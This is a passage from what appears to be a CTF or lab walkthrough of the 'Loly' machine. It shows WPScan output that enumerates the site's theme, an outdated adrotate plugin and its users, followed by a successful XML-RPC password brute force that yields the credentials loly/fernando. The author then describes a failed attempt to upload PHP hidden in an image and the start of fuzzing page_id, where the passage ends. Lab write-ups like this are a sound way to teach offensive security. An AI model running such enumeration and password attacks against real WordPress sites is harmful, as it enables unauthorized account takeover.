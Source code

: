 ```bash
 | Description: Feminine Style is a voguish, dazzling and very appealing WordPress theme. The theme is completely wo...
 | Author: acmethemes
 | Author URI: https://www.acmethemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css?ver=5.5, Match: 'Version: 1.0.0'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] adrotate
 | Location: http://loly.lc/wordpress/wp-content/plugins/adrotate/
 | Last Updated: 2023-01-27T21:19:00.000Z
 | [!] The version is out of date, the latest version is 5.11
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.8.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <===============================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] A WordPress Commenter
 | Found By: Rss Generator (Passive Detection)

[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - loly / fernando
```

So, I can login with `loly:fernando`.

Loly is an admin, but on the dashboard, there is no way to edit a page. I spent some time trying to upload php code inside an image, but couldn't get code execution. My approach was noticing that I could find an uploaded resource after fuzzing the `page_id` parameter:
